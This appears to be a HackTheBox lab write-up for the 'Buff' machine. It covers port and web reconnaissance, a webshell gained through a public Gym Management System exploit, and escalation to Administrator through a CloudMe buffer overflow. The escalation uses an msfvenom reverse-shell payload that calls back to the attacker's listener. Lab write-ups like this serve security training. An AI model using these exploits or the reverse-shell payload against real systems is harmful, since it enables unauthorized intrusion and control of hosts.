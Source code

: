 ```yaml
---
tags:
  - hack
  - linux
---
```

# HackTheBox: [Buff](https://app.hackthebox.com/machines/Buff)

> [!tip]- Summary with Spoilers
> - This machine was running a vulnerable version of the Gym Management System, which I exploited to gain RCE via a webshell.
> - I leveraged a buffer overflow in the `CloudMe` application to escalate privileges to `Administrator`.

## Services

### TCP

```text
# Nmap 7.94SVN scan initiated Sat Aug 31 17:07:23 2024 as: nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oN nmap_tcp-buff.htb.txt buff.htb
Nmap scan report for buff.htb (10.10.10.198)
Host is up, received user-set (0.089s latency).
rDNS record for 10.10.10.198: t
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON          VERSION
7680/tcp open  pando-pub? syn-ack ttl 127
8080/tcp open  http       syn-ack ttl 127 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: mrb3n's Bro Hut

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 31 17:08:44 2024 -- 1 IP address (1 host up) scanned in 81.21 seconds
```

#### 8080/tcp-http

```text
__http-server-header:
Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
__http-open-proxy:
Potentially OPEN proxy.
Methods supported:CONNECTION
__http-title:
mrb3n's Bro Hut
__http-methods:
  Supported Methods: GET HEAD POST OPTIONS
```

```console
http://buff.htb:8080 [200 OK] Apache[2.4.43], Bootstrap, Cookies[sec_session_id], Country[RESERVED][ZZ], Frame, HTML5, HTTPServer[Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6], HttpOnly[sec_session_id], IP[10.10.10.198], JQuery[1.11.0,1.9.1], OpenSSL[1.1.1g], PHP[7.4.6], PasswordField[password], Script[text/JavaScript,text/javascript], Shopify, Title[mrb3n's Bro Hut], Vimeo, X-Powered-By[PHP/7.4.6], X-UA-Compatible[IE=edge]
```

Selection of potentially interesting URLs from `feroxbuster -u http://buff.htb:8080 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -d1 -k -s 200,301,302`:

```text
...
301      GET        9l       30w      337c http://buff.htb:8080/profile => http://buff.htb:8080/profile/
301      GET        9l       30w      336c http://buff.htb:8080/upload => http://buff.htb:8080/upload/

200      GET      168l      486w     7791c http://buff.htb:8080/packages.php
200      GET        1l        2w       15c http://buff.htb:8080/include/process_login.php

200      GET      118l      265w     4169c http://buff.htb:8080/contact.php
200      GET      141l      433w     5337c http://buff.htb:8080/about.php
200      GET      122l      502w     5961c http://buff.htb:8080/facilities.php

301      GET        9l       30w      337c http://buff.htb:8080/include => http://buff.htb:8080/include/
301      GET        9l       30w      337c http://buff.htb:8080/Profile => http://buff.htb:8080/Profile/
200      GET      339l     2953w    18025c http://buff.htb:8080/LICENSE
301      GET        9l       30w      333c http://buff.htb:8080/att => http://buff.htb:8080/att/
301      GET        9l       30w      333c http://buff.htb:8080/IMG => http://buff.htb:8080/IMG/

301      GET        9l       30w      332c http://buff.htb:8080/ex => http://buff.htb:8080/ex/

301      GET        9l       30w      334c http://buff.htb:8080/boot => http://buff.htb:8080/boot/
```

```markup
$ curl 'http://buff.htb:8080/HOME.php'
<br />
<b>Parse error</b>:  syntax error, unexpected '}', expecting ';' or ',' in <b>C:\xampp\htdocs\gym\home.php</b> on line <b>106</b><br />
```

```console
$ curl http://buff.htb:8080/editp.php -X POST -d "fn=hax"
<br />
<b>Parse error</b>:  syntax error, unexpected '}', expecting ';' or ',' in <b>C:\xampp\htdocs\gym\editp.php</b> on line <b>21</b><br />
```

I can provoke some errors in various ways, like:

`**Warning**: mysqli::__construct(): (HY000/1049): Unknown database 'secure_login' in **C:\xampp\htdocs\gym\ex\include\db_connect.php** on line **3**`

And,

`:  Undefined index: username in <b>C:\xampp\htdocs\gym\ex\profile\i.php`

This site is running "Gym Management System 1.0", which has a SQLi vulnerability.

## Remote Code Execution

This is <https://www.exploit-db.com/exploits/48506>.

```console
$ python2 ./x.py http://buff.htb:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG

buff\shaun
```

## Privilege Escalation

```console
$ head 48389.py
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86
```

Used payload from: `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -b "\x00\x0d\x0a" -f python`

```console
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.198] 49729
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator
```

## Post-exploitation

Life after `root`.

```text
PS C:\> systeminfo
Host Name:                 BUFF
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.17134 N/A Build 17134
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          shaun
Registered Organization:
Product ID:                00329-10280-00000-AA218
Original Install Date:     16/06/2020, 15:05:58
System Boot Time:          28/09/2024, 18:35:32
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
                           [02]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.23553139.B64.2403260936, 26/03/2024
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     4,095 MB
Available Physical Memory: 2,455 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 3,054 MB
Virtual Memory: In Use:    1,745 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.198
                                 [02]: fe80::f153:9dda:f5ce:bddb
                                 [03]: dead:beef::cd48:d0d8:4905:bb02
                                 [04]: dead:beef::f153:9dda:f5ce:bddb
                                 [05]: dead:beef::114
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```
